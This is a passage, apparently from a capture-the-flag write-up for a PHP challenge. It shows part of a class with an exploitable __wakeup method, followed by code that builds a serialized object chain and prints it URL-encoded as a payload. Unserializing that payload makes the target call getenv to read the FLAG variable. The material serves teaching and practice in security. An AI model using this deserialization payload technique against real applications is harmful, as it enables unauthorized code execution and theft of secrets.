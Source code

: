 ```php
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "getenv";
$pwn -> name = $pc;
$pwn -> id = "check";
$pwn -> age = "FLAG";

$payload = serialize($pwn);
echo urlencode($payload);
```

![image.png](../../assets/images/moectf2025wp/image_48.png)

